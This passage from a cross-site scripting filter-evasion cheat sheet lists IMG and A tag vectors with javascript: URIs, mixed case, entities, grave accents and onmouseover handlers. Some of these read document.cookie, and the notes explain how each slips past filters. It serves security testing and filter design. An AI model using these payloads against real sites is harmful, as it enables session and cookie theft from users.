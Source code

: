 ## Image XSS using the JavaScript directive

Image XSS using the JavaScript directive (IE7.0 doesn't support the
JavaScript directive in context of an image, but it does in other
contexts, but the following show the principles that would work in other
tags as well:

<IMG SRC="javascript:alert('XSS');">

## No quotes and no semicolon

<IMG SRC=javascript:alert('XSS')>

## Case insensitive XSS attack vector

<IMG SRC=JaVaScRiPt:alert('XSS')>

## HTML entities

The semicolons are required for this to work:

<IMG SRC=javascript:alert(&amp;quot;XSS&amp;quot;)>

## Grave accent obfuscation

If you need to use both double and single quotes you can use a grave
accent to encapsulate the JavaScript string - this is also useful
because lots of cross site scripting filters don't know about grave
accents:

``<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>``

## Malformed A tags

Skip the HREF attribute and get to the meat of the XXS... Submitted by
David Cross \~ Verified on Chrome

\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>

or Chrome loves to replace missing quotes for you... if you ever get
stuck just leave them off and Chrome will put them in the right place
and fix your missing quotes on a URL or script.

\<a onmouseover=alert(document.cookie)\>xxs link\</a\>

## Malformed IMG tags

Originally found by Begeek (but cleaned up and shortened to work in all
browsers), this XSS vector uses the relaxed rendering engine to create
our XSS vector within an IMG tag that should be encapsulated within
quotes. I assume this was originally meant to correct sloppy coding.
This would make it significantly more difficult to correctly parse apart
an HTML tag:

